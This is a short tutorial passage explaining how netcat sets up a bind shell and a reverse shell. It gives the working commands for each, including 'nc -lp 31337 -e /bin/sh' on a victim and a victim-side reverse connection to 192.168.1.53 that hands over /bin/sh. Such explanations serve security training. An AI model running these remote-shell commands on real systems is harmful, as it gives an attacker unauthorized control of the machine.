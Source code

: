 ## Bind shell(Victim listener)

    Victim machine: nc -lp 31337 -e /bin/sh
    Attacker machine: nc 192.168.1.53 31337

A bind shell is established when a victim system "binds" its shell to a local network port. To achieve this using netcat, you should execute the command "nc -lp 31337 -e /bin/sh" on the victim machine. This sets up a listener on the machine on port 31337 and will execute the /bin/sh when another machine connects to its listener on port 31337. The attacker would enter the command "nc 192.168.1.53 31337" to connect to the victim's bind shell.


## Reverse shell(Attacker listener)
    Victim machine: nc 192.168.1.53 31337 –e /bin/sh
    Attacker machine: nc -lp 31337

A reverse shell is established when the target machine communicates with an attack machine listening on a specific port. To set up a listener on the attack machine, you would use the command "nc -lp 31337" on it. To connect to the attacking machine from the victim machine, you would enter the command "nc 192.168.1.53 31337 –e /bin/sh" on it.
